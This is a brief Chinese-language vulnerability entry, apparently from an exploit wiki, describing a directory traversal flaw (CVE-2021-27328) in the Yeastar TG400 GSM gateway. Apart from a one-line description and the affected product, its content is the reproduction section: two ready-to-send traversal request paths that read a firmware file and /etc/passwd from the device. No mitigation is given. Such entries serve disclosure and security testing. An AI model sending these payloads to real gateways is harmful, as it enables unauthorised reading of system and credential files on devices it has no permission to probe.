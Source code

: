 # 朗视 TG400 GSM 网关目录遍历  CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>朗视 TG400 GSM 网关</a-checkbox></br>

## 漏洞复现

```plain
/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1650602505512-6ebb6038-f759-4cbe-9f40-a4e398385f61.png)